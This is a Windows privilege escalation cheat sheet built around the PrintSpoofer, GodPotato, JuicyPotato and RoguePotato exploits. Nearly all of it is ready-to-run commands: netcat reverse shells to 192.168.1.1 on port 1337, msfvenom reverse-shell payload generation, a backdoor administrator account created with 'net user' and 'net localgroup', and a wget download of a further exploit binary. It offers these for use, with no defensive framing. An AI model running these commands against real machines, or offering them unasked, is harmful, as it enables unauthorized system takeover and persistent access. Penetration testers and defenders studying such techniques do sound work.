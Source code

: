 # Windows Privilege Escalation Cheatsheet

## PrintSpoofer Exploit

**Reference:** [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Required Privileges

```
SeChangeNotifyPrivilege = Enabled
SeImpersonatePrivilege  = Enabled
```

### Usage

```powershell
PS> .\PrintSpoofer64.exe -i -c cmd.exe
PS> .\PrintSpoofer64.exe -i -c powershell.exe
PS> .\PrintSpoofer64.exe -c "C:\Temp\nc.exe 192.168.1.1 1337 -e cmd"
PS> .\PrintSpoofer64.exe -c "C:\Temp\nc.exe 192.168.1.1 1337 -e powershell"
```

---

## GodPotato Exploit

**Reference:** [GodPotato](https://github.com/BeichenDream/GodPotato)

### Required Privileges

```
SeImpersonatePrivilege  = Enabled
```

### Usage

```powershell
PS> .\GodPotato-NET4.exe -cmd "cmd /c whoami"
PS> .\GodPotato-NET4.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.1.1 1337"
PS> .\GodPotato-NET4.exe -cmd "shell.exe" (with msfvenom)
```

### Add a New User to the Administrator Group

```powershell
PS> .\GodPotato-NET4.exe -cmd "cmd /c net user john pass123! /add"
PS> .\GodPotato-NET4.exe -cmd "cmd /c net localgroup administrators john /add"
```

---

## JuicyPotato Exploit

**Reference:** [JuicyPotato](https://github.com/ohpe/juicy-potato)

### Required Privileges

```
SeImpersonatePrivilege  = Enabled
```

### Create a Payload with Msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f exe -o payload.exe
```

### Run with JuicyPotato

```powershell
PS> .\JuicyPotato.exe -t * -p payload.exe -l 1337
PS> .\JuicyPotato.exe -t * -p "payload.exe" -a
```

---

## RoguePotato Exploit

**Reference:** [RoguePotato](https://github.com/antonioCoco/RoguePotato)

### Create a Payload with Msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f exe -o payload.exe
```

### Run with RoguePotato

```powershell
PS> .\RoguePotato.exe -r 192.168.1.1 -e "payload.exe" -l 1337
```

### If `SeManageVolumePrivilege` is Disabled

Download and use the following tool:

```bash
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
